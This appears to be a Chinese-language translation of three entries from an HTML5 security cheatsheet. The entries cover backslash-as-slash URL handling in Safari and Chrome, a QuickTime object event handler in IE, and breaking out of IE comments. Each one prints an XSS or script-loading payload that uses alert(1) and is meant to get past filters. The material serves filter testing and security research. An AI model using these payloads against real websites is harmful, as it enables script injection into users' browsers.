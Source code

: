 reporter：.mario

### Webkit 浏览器中反斜线替代斜线[#124](#124)[test](test/#124)

Safari 将内部URL属性中的反斜线当作斜线处理。chrome将URL头的”/\”当作”//”处理


```
<script src="/\example.com\foo.js"></script> // Safari 5.0, Chrome 9, 10 <script src="\\example.com\foo.js"></script> // Safari 5.0
```

*   chrome 9.0
*   chrome latest

*   safari 5.0
*   safari latest

*   html
*   dom

reporter：hasegawayosuke

### QuickTime 事件导致JavaScript代码执行[#126](#126)[test](test/#126)

在上方展示的经过构造的用法或多或少会触发QuickTime的未知DOM事件。那些包含下划线”_”的事件句柄很罕见，使它可以绕过大多数黑名单过滤。这一攻击只有满足以下条件才能生效：两个&lt;object&gt;标签；前一个&lt;object&gt;标签为后一个&lt;object&gt;标签提供了必要的behavior


```
<object id="x" classid="clsid:CB927D12-4FF7-4a9e-A169-56E4B8A75598"></object> <object classid="clsid:02BF25D5-8C17-4B23-BC80-D3488ABDDC6B" onqt_error="alert(1)" style="behavior:url(#x);"><param name=postdomevents /></object>
```

*   internet explorer 6.0
*   internet explorer 10.0

*   quicktime
*   html
*   event
*   object
*   classid
*   xss

*   [http://developer.apple.com/library/mac/#documentation/QuickTime/Conceptual/…ocument/QuickTimeandJavaScri.html#//apple_ref/doc/uid/TP40001526-CH001-SW6](http://developer.apple.com/library/mac/#documentation/QuickTime/Conceptual/…ocument/QuickTimeandJavaScri.html#//apple_ref/doc/uid/TP40001526-CH001-SW6)

reporter：.mario

### 使用属性界定符打破IE注释元素[#133](#133)[test](test/#133)

在IE9以下的版本中中可以使用`打破注释元素


```
<!-- `<img/src=xx:xx onerror=alert(1)//--!>
```
